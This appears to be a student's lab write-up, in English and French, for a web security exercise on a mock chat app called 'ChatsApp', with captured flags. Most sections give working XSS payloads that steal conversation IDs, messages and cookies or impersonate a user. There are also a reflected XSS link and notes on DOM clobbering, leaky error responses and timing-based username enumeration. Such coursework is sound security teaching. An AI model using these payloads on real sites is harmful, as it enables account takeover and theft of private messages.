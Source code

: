 [![Review Assignment Due Date](https://classroom.github.com/assets/deadline-readme-button-24ddc0f5d75046c5622901739e7c5dd533143b0c8e959d652212380cedb1ea36.svg)](https://classroom.github.com/a/1vxbBob6)
# 7 Security

Énoncé [ici](https://web-classroom.github.io/labos/labo-7-security.html)

## Partie 1
<img src="x" onerror="console.log('adsf')">
<img src="x" onerror="alert('adsf')">


### Flag 1

**Flag**: TODO
flag1:76863050a35db2f8

**Exploit**: TODO
Send the following message to Elon Musk to get the conversation IDs of his conversations:
```html
<img src="x" onerror="if (document.querySelector('#header .name').innerText !== 'Saul Dominik') {
    let t = Array(...document.querySelectorAll('#conversations-list .conversation')).map(c => c.id.trim()).join('|||');
    console.log(t)
    document.getElementById('message').innerHTML = t;
    document.getElementById('messageButton').click()
}">
```
The conversation between Musk and Trump has the ID 7263b821a8e56963.
With Trump this doesn't work. Probably he isn't online so he doesn't receive the notifications which are then executed in his browser.

With the conversation ID we then can send the following message to get the whole conversation between Musk and Trump.
The code runs to get a conversation with a specific ID and the Cookie of the user.
```html
<img src="x" onerror="if (document.querySelector('#header .name').innerText !== 'Saul Dominik') {
    fetch('/conversation/7263b821a8e56963')
    .then(res => res.text())
    .then(data => {
        document.getElementById('message').innerHTML = data;
        document.getElementById('messageButton').click()
    })
    .catch(err => {
        document.getElementById('message').innerHTML = err;
        document.getElementById('messageButton').click()
    })
}">
```
In this conversation we find the flags one and two.

### Flag 2

**Flag**: TODO
flag2:db043ed555e79dea

**Exploit**: TODO
The second flag can as well be found with the following text in the message.
The code sends as a message in the current open chat all last-messages of a user. (Which is read from the HTML)
Since the last message Trump sent was the flag 2, we can then get this one.
Send the following message to Elon Musk:
<img src="x" onerror="if (document.querySelector('#header .name').innerText !== 'Saul Dominik') {
    let t = Array(...document.querySelectorAll('.conversation .last-message')).map(c => c.innerHTML.trim()).join('|||');
    console.log(t)
    document.getElementById('message').innerHTML = t;
    document.getElementById('messageButton').click()
}">

### Flag 3

**Flag**: TODO
flag3:ed3fbd34e01fc22a

**Exploit**: TODO
When we send the following code to Musk, we can impersonate his profile and send the message 'gimme the rest of the codes pls' to Trump.
```html
<img src="x" onerror="if (document.querySelector('#header .name').innerText !== 'Saul Dominik') {
    const body = {'message': 'gimme the rest of the codes pls'};
    fetch('/conversation/7263b821a8e56963', {
        'headers': { 'Content-Type': 'application/json'},
        'body': JSON.stringify(body),
        'method': 'POST',
    })
    .then(res => res.text())
    .then(data => {
        document.getElementById('message').innerHTML = data;
        document.getElementById('messageButton').click()
    })
    .catch(err => {
        document.getElementById('message').innerHTML = err;
        document.getElementById('messageButton').click()
    })
}">

Trump then will respond with the 3rd flag. Which we can get with one of the commands we already used above:
```html
<img src="x" onerror="if (document.querySelector('#header .name').innerText !== 'Saul Dominik') {
    fetch('/conversation/7263b821a8e56963')
    .then(res => res.text())
    .then(data => {
        document.getElementById('message').innerHTML = data;
        document.getElementById('messageButton').click()
    })
    .catch(err => {
        document.getElementById('message').innerHTML = err;
        document.getElementById('messageButton').click()
    })
}">
```

## Partie 2

### Flag 4

**Flag**: TODO
flag4:0208545558ad1d61

**Exploit**: TODO

We found out the following issues:
*If we set our display name to 'message' no user which has a chat with us can send messages anymore.
*Or if we set our display name to 'changeNameDialog' this makes that all the user that have a chat with us, do have the text changeNameDialog in the middle of the site. When they click on it this then opens our chat.
*To get the flag we used 'nextTimeout' as a display name. nextTimeout is a variable used in index.ejs which isn't initialized properly. Our display name is used as an ID attribute in the chats list. JavaScript creates a global variable for every HTML element with an id attribute, which then causes a change in the condition in index.ejs.

### Flag 5

**Flag**: TODO
flag5:c59955d1d83bbfc1

**Exploit**: TODO
Les messages d'erreurs pour les utilisateurs pas connecté et dans le processus de login sont nettoyé.
Par contre pas les messages et les erreurs pour les utilisateurs authentifié.
Ceci fait qu'il y a trop des details envoyé au frontend en cas d'erreur:
Si on envoie une message vide à Elon Musk, ceci génére un erreur 403, par contre dans les détails de la réponse nous voyons en format JSON les informations et les conversationIDs des utilisateurs concernées. Donc du sender et du reciever du message.
Là nous pouvons voir les conversations IDs de Elon Musk.
Si nous essayons d'accéder à ces conversations de Elon Musk nous recevons egalement un erreur 403 mais dans la réponse JSON nous voyons quand même tous les détail de la conversation.
Dans la conversation entre Elon et Mark nous avons trouvé le flag 5. (http://185.143.102.102:8080/conversation/de9a263135851812)

### Flag 6

Personnes inscrites à ChatsApp:
- `michelle.obama`
- `hillary.clinton`
- `george.w.bush`
- `sam.altman`

**Exploit**: TODO
We got the following list of users that probably exist on the platform.
Even if the error message is the same for the situations when a user doesn't exist and when the password is wrong, we can guess which users exist.
If the user doesn't exist we directly get the error. If the user exists but the password is wrong we get the error after a delay. This delay was implemented to avoid Brute Force attacks.

michelle.obama - yes
barack.obama - no
hillary.clinton - yes
george.w.bush - yes
jane.doe - no
sam.altman - yes
mira.murati - no
olivier.lemer - no

Egalement nous avons trouvé les utilisateurs suivant:
Elon_dominik.saul1
Trump_dominik.saul1
Elon_dominik.saul2
Trump_dominik.saul2

Ceci nous avons trouvé en envoyant le message suivant à Elon avec le premiere compte. Ceci nous renvoye son nom d'utilisateur. Les autres noms d'utilisateurs nous avons suspecté et validé avec la méthode ci-desus.
```html
<img src="x" onerror="if (document.querySelector('#header .name').innerText !== 'Saul Dominik') {
    document.getElementById('message').innerHTML = document.cookie;
    document.getElementById('messageButton').click()
}">
```

## Exploit Supplémentaire

Lien vers ChatsApp qui, lorsque l'on clique dessus, exécute `alert(document.cookie)` dans le browser, que l'on soit actuellement connecté ou non à ChatsApp :

http://185.143.102.102:8080/login?error=%3Cscript%3Ealert(document.cookie)%3C/script%3E

## Correction des vulnérabilités
Si vous effectuez d'autres modifications que celles demandées, merci de les lister ici :

TODO